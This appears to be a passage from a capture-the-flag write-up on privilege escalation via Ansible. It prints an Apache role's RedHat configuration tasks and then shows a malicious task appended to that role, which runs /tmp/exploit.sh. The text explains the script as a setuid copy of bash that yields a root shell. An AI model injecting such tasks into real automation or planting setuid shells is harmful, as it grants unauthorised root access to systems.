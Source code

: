 Here is the content, it contains all the necessary stuff to run an `apache web server`!

```bash
[theodore@aratus ~]$ cat /opt/ansible/roles/geerlingguy.apache/tasks/configure-RedHat.yml
---
- name: Configure Apache.
  lineinfile:
    dest: "{{ apache_server_root }}/conf/{{ apache_daemon }}.conf"
    regexp: "{{ item.regexp }}"
    line: "{{ item.line }}"
    state: present
    mode: 0644
  with_items: "{{ apache_ports_configuration_items }}"
  notify: restart apache

- name: Check whether certificates defined in vhosts exist.
  stat: path={{ item.certificate_file }}
  register: apache_ssl_certificates
  with_items: "{{ apache_vhosts_ssl }}"

- name: Add apache vhosts configuration.
  template:
    src: "{{ apache_vhosts_template }}"
    dest: "{{ apache_conf_path }}/{{ apache_vhosts_filename }}"
    owner: root
    group: root
    mode: 0644
  notify: restart apache
  when: apache_create_vhosts | bool

- name: Check if localhost cert exists (RHEL 8 and later).
  stat:
    path: /etc/pki/tls/certs/localhost.crt
  register: localhost_cert
  when: ansible_distribution_major_version | int >= 8

- name: Ensure httpd certs are installed (RHEL 8 and later).
  command: /usr/libexec/httpd-ssl-gencerts
  when:
    - ansible_distribution_major_version | int >= 8
    - not localhost_cert.stat.exists

```
So, we simply added a final task inside that file, so we can run an exploit!

```bash
- name: exploiting you bruh
  command: /bin/sh /tmp/exploit.sh
  args:
   warn: false
```
Here is the exploit that we created, a simple copy and paste for the `bash` binary, but using the sticky bit! Basically if someone else runs the file, they will run the file as the user/group who created it, in this case the user `root`!
